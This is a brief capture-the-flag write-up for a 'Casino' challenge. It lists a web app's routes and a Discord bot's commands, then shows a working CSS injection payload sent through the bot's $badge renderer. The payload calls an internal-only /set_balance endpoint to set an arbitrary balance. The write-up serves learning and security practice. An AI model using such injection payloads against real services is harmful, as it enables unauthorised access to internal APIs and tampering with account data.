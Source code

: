 # Casino

Make $1,000 off the Discord bot, $help to view commands.

## Web Application

### /
### /badge
### /rich
### /balance
### /add_user (internal network only)
### /set_balance (internal network only)

## Bot

```
> $help
Website: http://35.224.135.84:3000/
$balance
$beg
$bet (accepts input of how much)
$rich
$badge (accepts input of CSS?!)
$flag
```

### $badge command CSS/XSS Injection

It accepts CSS as input in multiple forms, adds it to URL params
and then visits the page and screenshots it. We can probably XSS
our way in and make requests to the internal API.

edit: yes, yes we can. exploit below to set arbitrary balances

```
$badge `#badge { background: url('http://172.16.0.10:3000/set_balance?user=constarr%238990&balance=1337') }`
```
